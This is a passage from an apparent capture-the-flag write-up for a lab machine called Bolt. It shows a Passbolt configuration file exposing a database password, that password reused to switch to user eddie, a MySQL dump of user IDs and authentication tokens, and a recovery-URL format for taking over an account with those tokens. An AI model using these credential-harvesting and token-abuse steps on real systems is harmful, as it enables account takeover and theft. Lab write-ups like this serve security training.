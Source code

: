 Enumerating the system we found an interesting file `/etc/passbolt/passbolt.php`:
 
```php
    // Database configuration.
    'Datasources' => [
        'default' => [
            'host' => 'localhost',
            'port' => '3306',
            'username' => 'passbolt',
            'password' => 'rT2;jW7<eY8!dX8}pQ8%',
            'database' => 'passboltdb',
        ],
```

The user eddie seemed to reuse this password so we can just `su eddie` with the password `rT2;jW7<eY8!dX8}pQ8%` and retrieve the user flag.

## Root

For easier access we just ssh into eddie.
Since the creds we used are ment for mysql let's have a look at that first.

```sql
$ mysql -upassbolt passboltdb -p'rT2;jW7<eY8!dX8}pQ8%'

select * from users;

id      role_id username        active  deleted created modified
4e184ee6-e436-47fb-91c9-dccb57f250bc    1cfcd300-0664-407e-85e6-c11664a7d86c    eddie@bolt.htb  1       0       2021-02-25 21:42:50    2021-02-25 21:55:06
9d8a0452-53dc-4640-b3a7-9a3d86b0ff90    975b9a56-b1b1-453c-9362-c238a85dad76    clark@bolt.htb  1       0       2021-02-25 21:40:29    2021-02-25 21:42:32

select * from authentication_tokens;

id      token   user_id active  created modified        type    data
015b22eb-694f-4c94-a97d-0c87d69017ed    a7b19b6b-9f7f-482b-b677-b284ad5d6a29    4e184ee6-e436-47fb-91c9-dccb57f250bc    0       2021-02-25 22:31:57     2021-02-25 22:31:58     login   NULL
463f2e84-1f36-4e2f-ac0d-0010b96edee3    f861c953-aac8-4902-88da-5d17aca0ffde    9d8a0452-53dc-4640-b3a7-9a3d86b0ff90    0       2021-02-25 21:41:46     2021-02-25 21:41:47     login   NULL
57bb11fb-01e5-413c-9442-1d9bc480dbfb    cb900e0b-c602-4da7-acb6-f1daec248836    4e184ee6-e436-47fb-91c9-dccb57f250bc    0       2021-02-25 21:49:38     2021-02-25 21:49:39     login   NULL
5bb9d763-c95c-4986-9119-542133e3279c    5779bcad-2c17-487c-bf01-8168a3b20393    9d8a0452-53dc-4640-b3a7-9a3d86b0ff90    0       2021-02-25 21:40:29     2021-02-25 21:41:14     register  NULL
feb08771-2e55-43d8-92bc-d4a34d403273    8c7d2952-1598-420d-a666-fdece8f02bfc    4e184ee6-e436-47fb-91c9-dccb57f250bc    0       2021-02-25 21:42:50     2021-02-25 21:49:38     register  NULL
```

These tokens looked really interesting so we did some google-fu and it seems like we should be able to start an account recovery with them.
Following [this forum thread](https://passbolt.bolt.htb/setup/recover/4e184ee6-e436-47fb-91c9-dccb57f250bc/a42a1eeb-509e-4cb2-9877-6159ef4d6aa2) we can start it using this format:

`https://<your_domain>/setup/recover/<user_id>/<authentication_token.token>`
